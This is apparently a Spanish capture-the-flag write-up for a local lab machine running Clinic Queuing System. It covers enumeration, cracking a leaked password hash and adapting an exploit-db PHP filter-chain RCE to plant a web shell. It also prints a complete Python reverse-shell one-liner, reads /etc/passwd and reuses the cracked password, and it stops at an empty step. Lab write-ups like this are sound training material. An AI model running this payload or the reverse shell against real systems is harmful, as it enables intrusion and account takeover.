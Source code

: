 ### 1) Iniciamos la maquina.
```bash
sudo ./auto_deploy.sh queuemedic.tar
```
![Diagrama del sistema](./ANEXOS/Pasted%20image%2020240925173632.png)

### 2) Nos dirigimos al navegador e ingresamos la dirección http://172.17.0.2.
![./ANEXOS/Pasted image 20240925173823.png]
*Al ingresar a la url se carga un formulario de acceso.*

![[Pasted image 20240925180151.png]]
*Analizando la web con wappalyzer no se encontró ninguna información que nos pueda llamar la atención para investigar.*

3) Realizamos un escaneo de puertos con nmap.
```shell
nmap -sV -Pn 172.17.0.2 
```

![[Pasted image 20240925174021.png]]
*Al terminar el proceso se encontró un solo puerto abierto el 80 con un servidor Apache.*

4) Realizamos una búsqueda de carpetas y archivos con gobuster.

```shell
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirb/common.txt --exclude-length 0,275
```

![[Pasted image 20240925174813.png]]
*Al terminar el proceso se encontro con varias carpetas con posibles datos sensibles ellas son /backup y /db.*

5) Nos dirigimos a la url de /backup http://172.17.0.2/backup.

![[Pasted image 20240925175148.png]]
*Al ingresar vemos un archivo con extensión .zip lo cual procedemos a descargarlo para su posterior análisis.*

6) Nos dirigimos a la url de /db http://172.17.0.2/db.
 
![[Pasted image 20240925175503.png]]
*Al ingresar observamos un archivo con extensión .db lo cual procedemos a descargarlo para su posterior análisis.*

7) Analizamos los archivos descargados:
	a) Descomprimimos y verificamos el contenido del archivo backup.zip.	
	
	![[Pasted image 20240925175854.png]]
	*Nos encontramos con un backup completo del sistema Clinic Queuing System, en el cual realizando un análisis de cada archivo se encontró una posible vulnerabilidad en "index.php "en el método que utiliza para llamar a "page".*
	
	b) Abrimos el archivo clinic_queuing_db.db con sqlitebrowser.
	
	![[Pasted image 20240925180826.png]]
	*Al abrir la base de datos podemos ver las tablas de la db y desplegamos la tabla user_list*
	![[Pasted image 20240925181901.png]]
	*Al realizar la consulta sobre esta tabla user_list, se puede observar el contenido del mismo con los datos de username y password en la cual esta encriptada.*
	
8) Ataque de diccionario a los hashes encontrados.
	a) *Al realizar el ataque por fuerza bruta no se pudo obtener la contraseña de Administrador.*
	b) *Para obtener una lista con posibles contraseña para el usuario "Jessica Castro" utilizamos ChatGpt en el cual nos brinda una lista de 100 posibles contraseñas.*
	
	![[Pasted image 20240925183606.png]]
	![[Pasted image 20240925183512.png]]
	c) *Al finalizar el ataque por fuerza bruta con john the ripper pudo obtener una contraseña que concuerda con el hash del usuario "jessica" la cual es "j.castro".*

9) Volviendo la pagina principal en el login http://172.17.0.2.
![[Pasted image 20240925184644.png]]
*Iniciamos sesión con las credenciales obtenidas.*
![[Pasted image 20240925184845.png]]
*Analizando la pagina web ademas de un xss en el registro de usuarios y pasientes no se encontro.*

10) Busueda de Clinic Queuing System (php) en google.
![[Pasted image 20240925185754.png]]
*Al realizar la búsqueda en google no encontramos con el cms pero también arrojo en exploit-db un exploit en el cual se pude obtener RCE.*

11) Descarga https://www.exploit-db.com/exploits/52008 y análisis del exploit.
12) Al descargar y ejecutar el exploit vemos que no realiza la explotación del servicio.
	![[Pasted image 20241011082236.png]]
13) Analizando en detalle el código del sitio y el exploit encontré que había unas validaciones que hace la pagina por lo cual el exploit no puede realizar correctamente su cometido. 
14) Fijándome mas en detalle tengo acceso a un usuario que es administrador y en el exploit crea un usuario administrador entonces lo que se me ocurrió a analizar en que parámetros inyecta para obtener un RCE.
	![[Pasted image 20241011083138.png]]
15) Como se observa en la imagen el exploit inyecta en el parámetro `?page=` un `filter_chain` y después en el parámetro `&0=`, crea el archivo `rce.php` y escribe el contendido ``<?=`$_GET[0]`?>`` parseado en base64.
16) Entonces lo que tuve que hacer es unir todo el contenido de la variable `filter_chain` mas el parámetro 0 y ejecutarlo directamente en el navegador.
	![[Pasted image 20241011085843.png]]
	*El `filter_chain` es mas extenso pero así quedaría para inyectarlo directamente al navegador.*
	![[Pasted image 20241011090029.png]]
	*Ya tengo ejecución de comandos *
17) Ahora creo una reverse shell utilizando python3.

 ```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.17.0.1",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
 ```
 
 y en mi consola obtengo la conexión.
	 ![[Pasted image 20241011090521.png]]
	 
 18) Luego del tratamiento de la tty, listo el contenido del escritorio donde estoy ubicado y también listo la carpeta /home, en el cual encontré una carpeta jessica del que creo que es un usuario de sistema entonces realizo un cat al archivo /etc/passwd y encuentro al usuario.
	 ![[Pasted image 20241011092359.png]]
19) Como tengo un usuario llamado con el mismo nombre que el usuario de la web y como ya tengo una contraseña lo que hago es poner la misma contraseña y ahi ingreso al usuario jessica del sistema.
	 ![[Pasted image 20241011092814.png]]
	20) 
